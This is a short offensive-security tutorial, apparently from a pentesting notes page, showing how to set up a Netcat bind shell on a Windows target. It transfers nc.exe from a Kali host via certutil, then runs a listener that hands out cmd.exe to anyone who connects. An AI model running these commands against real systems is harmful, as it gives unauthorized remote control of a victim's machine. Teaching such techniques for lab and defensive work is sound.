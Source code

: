 A **bind shell** is a remote shell where the attacker connects to a listener on the target system; though often blocked or flagged, it's important to understand how it works and how to set it up using Netcat.
In order to setup a bind shell with Netcat, we will need to transfer the nc.exe executable to the target system.

```shell
# The first step will involve navigating to the /usr/share/windows-binaries directory
cd /usr/share/windows-binaries/

# We can then setup an HTTP server with Python within this directory by running the following command
python -m SimpleHTTPServer 80

# You will then need to open up a command prompt, navigate to the Desktop directory and run the following command to download the nc.exe executable from the web server being hosted on the Kali Linux system
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Setting up the bind shell listener on the Windows system
.\nc.exe -nvlp 1234 -e cmd.exe

# Back to Kali shell
nc -nv <target_IP> 1234
```

